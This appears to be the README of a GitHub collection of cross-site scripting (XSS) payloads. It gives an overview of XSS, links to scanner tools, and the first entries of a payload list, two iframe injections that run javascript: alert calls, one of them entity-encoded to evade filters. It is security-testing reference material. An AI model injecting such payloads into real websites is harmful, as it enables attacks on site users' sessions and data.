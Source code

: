 ### 🚀 Cross Site Scripting ( XSS ) Vulnerability Payload List 🚀

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/xss-payload-list/1">

##### Overview : 

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of XSS flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### XSS Vulnerability Scanner Tool's :

* [XSStrike](https://github.com/UltimateHackers/XSStrike)

* [BruteXSS Terminal](https://github.com/shawarkhanethicalhacker/BruteXSS)

* [BruteXSS GUI](https://github.com/rajeshmajumdar/BruteXSS)

* [XSS Scanner Online](http://xss-scanner.com/)

* [XSSer](https://tools.kali.org/web-applications/xsser)

* [xsscrapy](https://github.com/DanMcInerney/xsscrapy)  
* [Cyclops](https://github.com/v8blink/Chromium-based-XSS-Taint-Tracking)  

#### XSS Payload List :

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->


<IFRAME SRC="javascript:alert('window.origin');"></IFRAME>
<iframe src=javascript&colon;alert&lpar;document&period;session&rpar;>

